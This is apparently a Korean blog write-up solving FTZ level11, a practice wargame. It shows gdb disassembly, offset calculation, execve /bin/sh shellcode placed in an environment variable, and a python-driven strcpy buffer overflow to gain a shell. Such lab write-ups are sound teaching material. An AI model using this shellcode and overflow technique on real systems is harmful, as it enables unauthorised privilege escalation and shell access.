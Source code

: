 ```yaml
---
layout: post
title:  "FTZ level11"
date:   2020-09-04 13:27
categories: blog
---
```


FTZ level11 를 풀어보겠다.

![cat](/blog_img/ftz11_cat.png)

```shell
[level11@ftz level11]$cat hint
```
##### cat [OPTION] [FILE]
##### cat - 파일 이름으로 인자받아 이어주는 명령어

먼저 해당 c언어가 컴파일된것이 attackme 파일인걸로 추정한다 

![run](/blog_img/level11_run.png)

attackme 파일을 실행하면은 hint에 있는 c 언어로 작성된 코드와 똑같이 작동합니다.

그러면은 이제 attackme 를 분석하기위해 gdb 명령어를 사용하여 디버깅을 해봐야겠다.

```shell
$gdb attackme

(gdb) set disas intel
(gdb) disas main
```

![gdb](/blog_img/ftz_level11_gdb.png)

<main+3>: sub   esp,0x108
이라는것이 보이는데 0x108 은 C 언어 코드에서 char str[256]; 이나 마찬가지다 
즉 256 만큼 배열되는것에서 +8 쓰레기 값이 붙어서 264 만큼의 값이 있는것이고

BOF(버퍼오버플로우)를 하게된다면 자주 접하는게 ret sfp 가 있다 여기에서 제일 중요한것은 sfp(스텍 베이스) 값을 뜻한다.
sfp 는 스택 주소값을 계산할깨 스택값 바닥 프레임 포인터 값을 저장하는것이라고 하는데 이 크기는 4바이트이므로 

bof 를 내기위해서는 108 + sfp 크기 인 268 만큼의 입력을 한 다음 쉘코드를 실행하면 된다.

```shell
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80
```

해당 쉘 코드로 환경변수를 이용하여 bof 를 해야된다.

먼저 linux 에서 환경 변수 등록 명령어는 export 이다.

```shell
export EGG=`python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"'` 
```

와 같이 입력을 한 다음 해당 환경변수를 불러오기 위해 c언어로 해당 변수를 불러오는 주소를 알아오자

```
#include <stdio.h>
int main(){
    printf("print : %x\n",getenv("EGG"));
    return 0;
}
```
이런식으로 getenv 함수를 이용해서 주소값을 출력하면은 

![buff](/blog_img/buffx.png)

이렇게 주소값이 16진수로 나오게 된다.

*해당 주소값은 사람마다 다 다를수있으니 따라서 하면 안된다. 

그러면은 이 다양한 기능들을 이용해서 bof 를 수행하기 위해 python -c 를 넘기는 경우가 많다

어떠한 파일이 test 가 있다고 한다면

./test `python -c 'print "hello"'`
- test 파일에서 인자로 넘긴다.

(python -c 'print "hello"';cat) | ./test
- test 파일에서 실행중 중간에 입력이 된다.

우리가 해야될것은 1번째인 인자로 넘겨야된다.

이제 attackme 파일에서 argv[1] 로 strcpy 를 사용하기떄문에

명령어를 입력하여 하고싶다면은 

```shell
./attackme `python -c 'print "A"*268+"\x22\xfc\xff\xbf"'`
```

16진수로 나온 환경 변수 주소값을 거꿀로 해서 입력해야된다.

입력하고 my-pass 를 해야된다.

![my-pass](/blog_img/level12.my_pass.png)

password:it is like this
